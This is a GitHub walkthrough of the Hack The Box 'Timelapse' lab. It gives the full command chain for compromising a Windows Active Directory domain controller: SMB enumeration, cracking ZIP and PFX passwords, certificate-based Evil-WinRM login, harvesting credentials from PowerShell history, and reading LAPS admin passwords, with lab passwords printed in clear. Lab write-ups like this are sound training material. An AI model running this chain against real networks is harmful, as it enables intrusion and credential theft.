 # Timelapse HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Timelapse-green?logo=hackthebox)](https://app.hackthebox.com/machines/452)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

This walkthrough covers the **Timelapse** Hack The Box (HTB) lab, which focuses on exploiting a Windows Active Directory environment using enumeration, password cracking, and privilege escalation techniques. The main attack path involves:

- Discovering a publicly accessible SMB share,
- Extracting a password-protected ZIP file containing a PFX certificate,
- Cracking the ZIP and PFX passwords using John the Ripper,
- Extracting an SSL certificate and private key from the PFX file,
- Using the certificate and key to authenticate via WinRM,
- Performing PowerShell history enumeration to find new credentials,
- Exploiting LAPS (Local Administrator Password Solution) permissions to fetch the Administrator password, 
- Gaining Administrator access on the domain controller.

---

## Table of Contents

- [Recon and Port Scanning](#recon-and-port-scanning)  
- [Enumerating SMB Shares](#enumerating-smb-shares)  
- [Cracking ZIP Password](#cracking-zip-password)  
- [Extracting PFX File](#extracting-pfx-file)  
- [Cracking PFX Password](#cracking-pfx-password)  
- [Extracting SSL Certificate and Private Key](#extracting-ssl-certificate-and-private-key)  
- [Authentication via WinRM with Evil-WinRM](#authentication-via-winrm-with-evil-winrm)  
- [PowerShell History Enumeration](#powershell-history-enumeration)  
- [Login with `svc_deploy` User](#login-with-svc_deploy-user)  
- [LAPS Password Extraction](#laps-password-extraction)  
- [Administrator Access](#administrator-access)
- [Stepwise PoC](#stepwise-poc)

---

## Recon and Port Scanning

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.227.113 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -SC -sv 10.129.227.113
```
- Perform full port scan and scan only open ports with service detection.

---

## Enumerating SMB Shares
```
smbclient -L //10.129.227.113/
smbclient //10.129.227.113/Shares
```
- List SMB shares, then connect to the "Shares" share.

Within the SMB client:

```
ls
cd Dev
get winrm_backup.zip
```
- List files in the share, navigate to Dev folder, and download the `winrm_backup.zip`.

---

## Cracking ZIP Password

```
zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt
```
- Convert ZIP to John-compatible hash and crack password using rockyou.txt wordlist.

---

## Extracting PFX File

`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes`
- Attempt to extract private key (initially fails due to unknown password).

---

## Cracking PFX Password

```
python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john -wordlist:/usr/share/wordlists/rockyou.txt
```
- Convert PFX to a hash and crack password using John the Ripper.

---

## Extracting SSL Certificate and Private Key

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```
- Extract the private key (unencrypted) and the SSL certificate separately now that the password is known.

---

## Authentication via WinRM with Evil-WinRM

`evil-winrm -i 10.129.227.113 -c cert.pem -k key.pem -S`
- Authenticate to the WinRM SSL service using the extracted cert and private key, skipping SSL certificate verification.

---

## PowerShell History Enumeration

`type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
- View PowerShell command history retrieved to discover new credentials.

---

## Login with `svc_deploy` User

```
evil-winrm -i 10.129.227.113 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
net user svc_deploy
```
- Login as `svc_deploy` using found credentials and check the group memberships.

---

## LAPS Password Extraction

`Get-ADComputer DC01 -property 'ms-mcs-admpwd'`
- Retrieve the current local Administrator password for DC01 computer managed by LAPS.

---

## Administrator Access

`evil-winrm -i 10.129.227.113 -u administrator -p '72)9j8++KMk(38d9sAgO+k9N' -S`
- Use the retrieved LAPS-managed password to login as Administrator and gain full access.

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>

<img width="1562" height="771" alt="16" src="https://github.com/user-attachments/assets/23242ca2-2135-4182-8ee8-585bceb4ef20" />
<img width="1063" height="472" alt="15" src="https://github.com/user-attachments/assets/6bc962ed-6c09-468b-aef7-da2ad1dbb0b8" />
<img width="1382" height="621" alt="14" src="https://github.com/user-attachments/assets/51e4965f-81c2-496a-8234-5c49d0d81db9" />
<img width="714" height="158" alt="13" src="https://github.com/user-attachments/assets/df8d4c1c-40ea-4b83-bf40-c359e7dad25d" />
<img width="1764" height="136" alt="12" src="https://github.com/user-attachments/assets/339768f1-f2c0-4c59-84fa-067dd675359f" />
<img width="1176" height="305" alt="11" src="https://github.com/user-attachments/assets/509a38cf-4317-4d55-960a-fb0a397aa519" />
<img width="700" height="161" alt="10" src="https://github.com/user-attachments/assets/1d44985b-2cbb-47aa-b475-80333c96e0b2" />
<img width="601" height="462" alt="9" src="https://github.com/user-attachments/assets/5179b939-0145-4429-9850-7322eb29377d" />
<img width="997" height="123" alt="8" src="https://github.com/user-attachments/assets/0cdd6f1e-e9df-4696-b898-e840e59ba0be" />
<img width="1189" height="446" alt="7" src="https://github.com/user-attachments/assets/ee2ce62d-fe37-4248-93f0-2c715e383bda" />
<img width="1654" height="639" alt="6" src="https://github.com/user-attachments/assets/aedc1e74-0501-4e59-be10-55610b2bb0ac" />
<img width="1507" height="686" alt="5" src="https://github.com/user-attachments/assets/98692e63-4bd7-4943-be3a-e94ce8c9cbe7" />
<img width="1616" height="458" alt="4" src="https://github.com/user-attachments/assets/3b51cd00-12b6-4b70-8f10-e70cf7403ae8" />
<img width="1188" height="132" alt="3" src="https://github.com/user-attachments/assets/d8237c09-1487-4799-9a4a-f11d027e15fc" />
<img width="1117" height="428" alt="2" src="https://github.com/user-attachments/assets/1669ab7c-2d28-4b63-a5e2-d45c855957e8" />
<img width="1629" height="463" alt="1" src="https://github.com/user-attachments/assets/8e89bfd9-75e9-44d5-aad2-4e45dcda0326" />

</details>  

---

## Tools Utilized

- **John the Ripper**: For cracking ZIP and PFX passwords.
- **OpenSSL**: To extract certificates and keys from PFX files.
- **Evil-WinRM**: For remote Windows management via PowerShell and WinRM.

---

**Note:** 

-  The `.pfx` file contains cryptographic assets (SSL certificate + private key) for authentication.
-  LAPS (Local Administrator Password Solution) securely manages local account passwords of domain-joined computers and stores them in Active Directory.

---
